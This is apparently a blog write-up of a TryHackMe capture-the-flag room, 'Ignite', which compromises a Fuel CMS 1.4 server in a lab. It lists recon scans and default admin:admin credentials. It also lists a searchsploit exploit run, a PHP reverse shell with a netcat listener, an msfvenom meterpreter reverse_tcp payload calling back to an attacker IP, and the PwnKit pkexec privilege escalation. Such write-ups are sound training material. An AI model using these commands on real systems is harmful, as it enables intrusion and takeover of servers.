 ```yaml
---
layout: post
title: Walkthrough - Ignite
published: true
---
```


A new start-up has a few issues with their web server.

[https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

* * *

## Root it!

- ``nmap -p- -T4 10.10.1.30 -vvv``

Few things of note. Inital nmap scan shows we have a webserver at port 80 and viewing the site, we can see a default Fuel CMS Version 1.4 page. Will run gobuster to scan while nmap runs. 

It doesnt look like there are any other open ports on this server. But will keep running scans while we check out the webserver.

- ``gobuster dir -u http://10.10.1.30 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php,cgi -t 100 --no-error``
- we see a robots.txt with ``/fuel/`` which shows us the fuel cms login page.

##   Gobuster Results

```shell
/home                 (Status: 200) [Size: 16591]
/index                (Status: 200) [Size: 16591]
/index.php            (Status: 200) [Size: 16591]
/0                    (Status: 200) [Size: 16591]
/offline              (Status: 200) [Size: 70]   
/robots.txt           (Status: 200) [Size: 30]   
/server-status        (Status: 403) [Size: 298]  
```

Reading the fuel CMS default page gives us default credentials admin:admin. We cnan login to /fuel/ with these. lol.

- ``searchsploit fuel cms`` we have some exploits to try.
- ``python3 50477.py -u http://10.10.1.30`` will give us a shell
- wget a php reverse shell over and setup netcat listener

![](/assets/ignite01.png)

* * * 

## User.txt

- ``cat flag.txt`` in ``/home/www-data``

* * * 

## Root.txt

- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- upload meterpreter shell ``msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f elf > meterpreter.elf``
- setup ``msfconsole`` and run ``linux/local/cve_2021_4034_pwnkit_lpe_pkexec`` to get root.txt

* * * 